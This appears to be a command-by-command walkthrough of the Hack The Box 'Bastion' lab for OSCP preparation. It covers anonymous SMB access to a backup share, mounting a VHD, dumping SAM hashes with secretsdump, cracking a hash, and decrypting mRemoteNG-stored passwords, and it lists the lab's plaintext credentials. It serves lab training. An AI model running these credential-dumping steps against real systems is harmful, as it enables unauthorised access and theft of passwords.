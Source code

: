 ## 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP)
[Done](Done)

## 🔧 **Tools Used**
- `nmap`
- `smbmap`
- `smbclient`
- `mount` (with CIFS)
- `guestmount` (from `libguestfs-tools`)
- `secretsdump.py` (Impacket)
- [CrackStation](https://crackstation.net/)
- `ssh`
- `mRemoteNG`
- `java -jar decipher_mremoteng.jar`
- Custom Python decryption script
- PowerShell
- `type` (Windows)

---

## 💻 **Commands Used (Chronologically)**

### 📡 Recon
```bash
nmap -sT -p- --min-rate 10000 10.10.10.134
nmap -sCV -p 22,135,139,445 10.10.10.134
```

### 📁 [SMB](SMB.md) Enumeration
```bash
smbmap -H 10.10.10.134
smbmap -H 10.10.10.134 -u df
smbclient -N -L //10.10.10.134
smbclient -N //10.10.10.134/backups
```

### 🔗 Mount SMB Share
```bash
mount -t cifs //10.10.10.134/backups /mnt -o user=,password=
find /mnt/ -type f
```

### 🧩 Mount VHD
```bash
apt install libguestfs-tools
guestmount --add /mnt/WindowsImageBackup/L4mpje-PC/Backup\ 2019-02-22\ 124351/9b9cfbc3-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro /mnt2/
guestmount --add /mnt/WindowsImageBackup/L4mpje-PC/Backup\ 2019-02-22\ 124351/9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro /mnt2/
ls /mnt2/
```

### 🔓 Dump Credentials
```bash
cd /mnt2/Windows/System32/config
secretsdump.py -sam SAM -security SECURITY -system SYSTEM LOCAL
```

### 🔐 [Crack Password](https://crackstation.net/)
```bash
# Use https://crackstation.net/ on hash 26112010952d963c8dc4217daec986d9
```

### 💻 [SSH](SSH.md) as User
```bash
ssh L4mpje@10.10.10.134
# password: bureaulampje
type C:\Users\L4mpje\Desktop\user.txt
```

### 📂 Inspect Installed Software
```powershell
cd "C:\Program Files (x86)\"
```

### 🔎 mRemoteNG Profile
```powershell
cd C:\Users\L4mpje\AppData\Roaming\mRemoteNG
type confCons.xml
```

### 🔓 [Decrypt Password via Python](https://github.com/haseebT/mRemoteNG-Decrypt/blob/master/mremoteng_decrypt.py)
```bash
# (Download jar from: https://github.com/haseebT/mRemoteNG-Decrypt/blob/master/mremoteng_decrypt.py)
python3 mremoteng_decrypt.py -f FILE [-p CUSTOM_PASSWORD] V22XaC5eW4epRxRgXEM5RjuQe2UNrHaZSGMUenOvA1Cit/z3v1fUfZmGMglsiaICSus+bOwJQ/4AnYAt2AeE8g==
```

### 🔓 Decrypt via Python Script
```bash
./mRemoteNG-decrypt.py confCons.xml
```

### 🔐 SSH as Administrator
```bash
ssh administrator@10.10.10.134
# password: thXLHM96BeKL0ER2
type C:\Users\Administrator\Desktop\root.txt
```

---

## 🔗 Link to Writeup

📖 [0xdf’s Full Bastion Writeup](https://0xdf.gitlab.io/2019/09/07/htb-bastion.html)

---

Let me know if you'd like this converted into a markdown cheat sheet or printable version 📋